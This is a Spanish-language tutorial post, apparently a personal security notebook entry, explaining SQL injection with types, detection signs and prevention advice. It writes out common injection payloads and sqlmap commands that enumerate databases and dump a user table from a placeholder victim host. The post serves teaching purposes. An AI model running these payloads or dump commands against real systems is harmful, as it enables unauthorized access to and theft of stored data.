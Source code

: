```yaml
---
title: "SQL Injection: Cuando las bases de datos te cuentan sus secretos"
author: "l1ttl3bugc4t"
date: "2025-06-09"
tags: [SQL Injection, Inyección, Pentesting, Seguridad Web, Red Team, Exploit]
categories: [cuaderno, Red Team & Chill, CyberChallenges]
---
```


**SQL Injection** (o **SQLi**) es como engañar a una base de datos para que revele sus secretos más oscuros con una simple frase maliciosa 😼📜

---

## 🧠 ¿Qué es SQL Injection?

Es una vulnerabilidad que ocurre cuando una aplicación web **inserta datos no validados directamente en una consulta SQL**.  
Esto permite que un atacante altere la lógica del query, acceda a datos sensibles o incluso ejecute comandos en el sistema operativo.

---

## 💥 Ejemplo básico

Supón que tienes una URL como esta:

```
https://tienda.com/producto.php?id=3
```

Y el backend hace algo como:

```sql
SELECT * FROM productos WHERE id = '3';
```

Un atacante podría enviar:

```
https://tienda.com/producto.php?id=3' OR '1'='1
```

Resultado:

```sql
SELECT * FROM productos WHERE id = '3' OR '1'='1';
```

¡Esto devuelve todos los productos!

---

## 🕳️ Tipos de SQL Injection

| Tipo | Descripción |
|------|-------------|
| **Inyección clásica (In-band)** | Resultado visible directamente |
| **Blind SQLi** | No hay error visible, se infiere por comportamiento |
| **Time-based** | Usa retardos (`SLEEP()`) para inferir datos |
| **Out-of-band** | Usa canales externos como DNS o HTTP para exfiltrar datos |

---

## 🔍 Cómo detectar SQLi

- Parámetros que afectan directamente consultas
- Errores SQL en pantalla (`syntax error`, `unclosed quote`)
- Comportamientos extraños en búsquedas o formularios
- Uso de comillas `'`, doble comilla `"`, o operadores `OR`, `AND`

---

## 🧪 Payloads comunes

```sql
' OR 1=1 --
" OR "1"="1" --
admin' --
1' AND SLEEP(5) --
```

---

## 🛠️ Herramientas favoritas

- `sqlmap` → escaneo y explotación automática
- `Burp Suite` → para identificar y probar manualmente
- `sqlninja`, `jSQL`, `NoSQLMap` → alternativas y especializados

---

## 🧬 Comandos útiles con sqlmap

```bash
sqlmap -u "http://victima.com/item.php?id=1" --dbs
sqlmap -u "http://victima.com/item.php?id=1" -D tienda -T usuarios --dump
sqlmap -r request.txt --level 5 --risk 3 --batch
```

---

## 🔐 Prevención

- **Usa consultas preparadas** (`prepared statements`)
- Escapa y valida entradas de usuario
- Usa ORMs que gestionen queries por ti
- No reveles errores de base de datos al cliente
- Limita privilegios de las cuentas de DB

---

## 🧵 Curiosidad extra

Algunas SQLi permiten obtener **shells reversas**, leer archivos (`LOAD_FILE`) o escribir scripts (`INTO OUTFILE`) en el servidor 😈

---

## ✨ Conclusión

Una **SQL Injection** es como hablar el idioma secreto del servidor…  
Y si no está bien entrenado, **te revela todo sin pensarlo dos veces** 😹📚

> _"Dame una comilla y moveré el mundo."_ — **l1ttl3bugc4t**

---
